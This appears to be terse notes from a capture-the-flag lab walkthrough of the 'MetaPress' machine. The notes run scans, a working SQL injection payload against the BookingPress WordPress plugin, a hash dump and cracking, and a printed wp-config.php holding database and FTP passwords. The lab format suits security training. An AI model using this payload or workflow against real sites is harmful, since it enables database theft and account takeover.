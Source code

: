 └─$ nmap -A -p- -Pn 10.10.11.186 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-10 11:42 CST
Nmap scan report for metapress.htb (10.10.11.186)
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.6.2
|_http-title: MetaPress &#8211; Official company site
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=11/10%Time=636D3AB3%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10
SF:\.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cr
SF:eative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creativ
SF:e\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 753.04 seconds

└─$ feroxbuster -u http://metapress.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,txt,git,pdf -q -fs 200,301
200      GET      155l      552w        0c http://metapress.htb/
301      GET        0l        0w        0c http://metapress.htb/about/ => http://metapress.htb/about-us/
301      GET        0l        0w        0c http://metapress.htb/rss/ => http://metapress.htb/feed/
301      GET        0l        0w        0c http://metapress.htb/index.php => http://metapress.htb/
200      GET     1033l     3343w        0c http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2006/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/1/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/08/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/rss/ => http://metapress.htb/events/feed/
301      GET        0l        0w        0c http://metapress.htb/events/03/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2005/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/11/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/12/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/10/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/about/ => http://metapress.htb/about-us/
301      GET        0l        0w        0c http://metapress.htb/events/events/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/01/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/05/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/04/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/07/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/09/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/02/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/3/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/13/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/4/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/14/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/15/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/16/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2004/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/18/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/20/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/22/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/21/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/6/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/5/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/19/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/24/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2007/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/23/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/17/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/27/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/26/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/9/ => http://metapress.htb/events/
200      GET      155l      552w        0c http://metapress.htb/0/
200      GET       50l      114w        0c http://metapress.htb/feed/
301      GET        0l        0w        0c http://metapress.htb/0/events/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/0/rss/ => http://metapress.htb/0/feed/
301      GET        0l        0w        0c http://metapress.htb/0/about/ => http://metapress.htb/about-us/
200      GET      384l     3177w    19915c http://metapress.htb/license.txt
200      GET       97l      823w     7278c http://metapress.htb/readme.html


https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 10 Nov 2022 18:42:12 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]                                                                                                       

└─$ python3 booking-press-expl.py -u http://metapress.htb -n 61a943f4b5&
[1] 46154
-- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|


└─$ hashcat --show hash                                      
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar



manager
partylikearockstar

https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/



```php
server {

	listen 80;
	listen [::]:80;

	root /var/www/metapress.htb/blog;

	index index.php index.html;

        if ($http_host != "metapress.htb") {
                rewrite ^ http://metapress.htb/;
        }

	location / {
		try_files $uri $uri/ /index.php?$args;
	}
    
	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/var/run/php/php8.0-fpm.sock;
	}

	location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
		expires max;
		log_not_found off;
	}

}
```


```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```
